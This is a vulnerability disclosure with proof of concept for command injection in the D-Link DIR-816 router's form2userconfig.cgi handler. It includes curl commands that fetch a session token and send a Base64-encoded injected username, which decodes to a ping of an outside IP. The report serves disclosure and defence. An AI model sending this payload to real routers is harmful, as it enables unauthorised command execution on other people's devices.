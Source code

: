 Vender ：D-Link

Firmware version:1.10 B05

Exploit Author: doudoudedi233@gmail.com

Vendor Homepage: http://www.dlink.com.cn/

Hardware Link:http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

# report

##### Describe

​	I found some vulnerabilities in the dir-816 750m11ac wireless router , Firmware version is DIR-816A2_FWv1.10CNB05_R1B011D88210

​	The HTTP request parameter is used in the handler function of  /goform/form2userconfig.cgi route, which can construct the user name string to delete the user function. This can lead to command injection through shell metacharacters.

​	If the user can configure the router, it may cause unconditional command execution If the user can configure the router, it may cause unconditional command execution.


##### POC&&EXP
First, get the tokenid 
```
curl -s http://192.168.33.9/dir_login.asp  | grep tokenid
```
```
curl -i -X POST http://192.168.33.9/goform/form2userconfig.cgi  -d "username=JztwaW5nIDExMi4xMjYuOTkuOTE7Jw==&oldpass=123&newpass=MTIz&confpass=MTIz&deluser=Delete&select=s0&hiddenpass=&submit.htm%3Fuserconfig.htm=Send&tokenid=xxxxx"#input id
```
It will decode our command Base64 and execute it 

##### TEST

​	First run our POC

<img src="./img/image-20210819160553286.png" alt="image-20210819160553286" style="zoom:50%;" />

​	GDB stops at the command we are about to execute

<img src="./img/image-20210819160627461.png" alt="image-20210819160627461" style="zoom:50%;" />

​	Successfully executed sh

<img src="./img/image-20210819161606757.png" alt="image-20210819161606757" style="zoom:50%;" />
